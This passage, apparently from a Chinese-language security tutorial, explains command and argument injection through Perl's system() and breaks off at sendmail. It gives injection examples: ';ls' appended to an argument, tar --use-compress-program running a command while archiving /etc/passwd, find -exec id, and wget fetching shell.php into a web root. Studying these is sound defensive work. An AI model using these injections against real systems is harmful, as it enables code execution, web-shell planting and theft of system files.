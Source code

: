 将命令和参数分隔开就不行了，原因在于传递给 system 的参数变成了数组形式、严格按命令和参数进行区分了：

```
$param = ";ls";
system("echo", "helloworld$param");
# 或
# @cmd = ("echo","helloworld;ls");
# system @cmd;
# 或
# $param = $ARGV\[0\];
# system("echo", "helloworld$param");
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcN6UVIPDYEENZ8qVM81iaaxRGV4x9sJfJLPuhgA8iagC8yOIFcXicQm24Cg/640?wx_fmt=png)

###### 参数注入

由前面数组形式执行 system 函数知道，命令注入是不成功的，但是某些写死的命令是可以进行参数注入的。但是这种注入方式较苛刻，需要有两处连续的可控点。

**tar 参数注入**

tar 命令的 –use-compress-program 参数选项可以执行 shell 命令，若存在参数注入则可利用。注入点需要 –use-compress-program 参数及其后面的参数值两处。

```
@cmd = ("tar","--use-compress-program","touch /tmp/perltest/mi1k7ea","-cf","/tmp/perltest/passwd","/etc/passwd");
system @cmd;
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNpPAgoQsF2ej1cZ4sOTbYw3qpJ5Mh1tsnt4XwlWmfZyicPliccdfZsHqw/640?wx_fmt=png)

**find 参数注入**

find 命令的 -exec 参数选项可以执行命令，若存在参数注入则可利用。注入点需要 –execs 参数及其后面的参数值两处。

```
@cmd = ("find","/tmp","-iname","sth","-or","-exec","id",";","-quit");
system @cmd;
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNicVr0EHfFgvpQyW4cGq9uEfQzIiceuaBU2ALYoQWRu4CRHib5ZRbPPsHw/640?wx_fmt=png)

**wget 参数注入**

wget 命令的 –directory-prefix 参数选项可以将目标文件下载到指定目录中，若存在参数注入则可利用。注入点需要 –directory-prefix 参数及其后面的参数值两处和远程 URL 地址一处。

```
@cmd = ("wget","--directory-prefix","/var/www/html","http://127.0.0.1:8080/shell.php");
system @cmd;
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNaIFW341by7lz751zfV8X9cTyxiceF9AlpxZSSibaEtjiap5Qn1SAR2RIQ/640?wx_fmt=png)

**sendmail 参数注入**

sendmail 涉及到参数注入的几个参数：
